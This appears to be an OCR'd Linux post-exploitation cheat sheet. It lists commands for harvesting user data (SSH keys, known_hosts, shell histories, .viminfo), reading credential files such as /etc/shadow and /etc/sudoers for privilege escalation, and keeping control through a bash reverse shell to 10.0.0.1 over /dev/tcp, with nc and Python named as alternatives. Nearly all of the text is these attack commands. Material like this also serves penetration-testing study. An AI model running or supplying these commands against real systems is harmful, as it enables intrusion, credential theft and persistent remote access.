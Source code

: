 Obtain users' information
=========================

-   ls -alh /home/\*/

-   ls -alh /home/\*/.ssh/

-   cat /home/\*/.ssh/authorized\_keys

-   cat /home/\*/.ssh/known\_hosts

-   cat /home/\*/.\*hist\* \# you can learn a lot from this

-   find -type f /home/\*/.vnc /home/\*/.subversion

-   grep \^ssh /home/\*/.\*hist\*

-   grep \^telnet \`/home/\*/.\*hist\*

-   grep \^mysql /home/\*/.\*hist\*

-   cat /home/\*/.viminfo



-   sudo -l \# if sudoers is not readable, this sometimes works per user

-   crontab -l

-   cat /home/\*/.mysql\_history

Escalating
==========

Looking for possible opened paths
---------------------------------

-   ls -alh /root/

-   cat /etc/sudoers

-   cat /etc/shadow

-   cat /etc/master.passwd \# OpenBSD

-   cat /var/spool/cron/crontabs/\* \| cat /var/spool/cron/\*

-   lsof -nPi

-   ls /home/\*/.ssh/\*

Maintaining control
===================

Reverse Shell
-------------

Starting list sourced from: [[
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet]{.underline}](http://www.google.com/url?q=http%3A%2F%2Fpentestmonkey.net%2Fcheat-sheet%2Fshells%2Freverse-shell-cheat-sheet&sa=D&sntz=1&usg=AFQjCNFxX7D4XrJV999xsFEVnml66qvHZA)

-   bash -i \>& /dev/tcp/10.0.0.1/8080 0\>&1 (No /dev/tcp on Debian, but
    use nc, TCL, awk or any interpreter like Python, and so on.).
